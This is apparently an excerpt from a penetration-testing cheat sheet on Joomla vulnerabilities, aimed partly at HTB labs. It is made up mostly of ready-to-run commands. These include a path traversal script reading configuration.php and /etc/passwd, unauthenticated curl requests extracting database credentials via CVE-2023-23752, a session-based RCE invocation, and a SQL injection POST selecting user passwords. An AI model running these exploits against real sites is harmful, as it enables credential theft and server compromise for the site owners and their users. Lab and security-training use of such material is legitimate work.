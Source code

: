 
**Usage Examples:**
```bash
# Extract configuration file
python3 joomla_cve_2019_10945.py http://target.com admin admin configuration.php

# Read system files
python3 joomla_cve_2019_10945.py http://target.com admin admin ../../../etc/passwd

# Check for flags (HTB labs)
python3 joomla_cve_2019_10945.py http://target.com admin admin flag.txt
```

### CVE-2023-23752: Information Disclosure

**Vulnerability Details:**
- **Affected Versions:** Joomla 4.0.0 through 4.2.7
- **CVSS Score:** 5.3 (Medium)
- **Attack Vector:** Unauthenticated information disclosure
- **Impact:** Database credentials, configuration data

#### Exploitation Method

```bash
# Unauthenticated information disclosure
curl -s "http://target.com/api/index.php/v1/config/application?public=true" | jq .

# Extract database credentials
curl -s "http://target.com/api/index.php/v1/config/application?public=true" | jq '.data.attributes' | grep -E "(host|user|password|db)"

# Example output:
{
  "host": "localhost",
  "user": "joomla_user",
  "password": "secure_password_123",
  "db": "joomla_database"
}
```

### Historical Core Vulnerabilities

#### CVE-2015-8562: Remote Code Execution
```bash
# Session hijacking and RCE (Joomla 3.0.0-3.4.5)
# Requires knowledge of valid session ID

# Generate malicious session
python3 joomla_session_exploit.py --url http://target.com --session SESSION_ID
```

#### CVE-2016-8869: SQL Injection
```bash
# SQL injection in core fields (Joomla 3.4.4-3.6.3)
curl -X POST "http://target.com/index.php?option=com_fields&task=field.storeform" \
  -d "jform[type]=sql&jform[params][query]=SELECT password FROM jos_users WHERE id=1"
```

---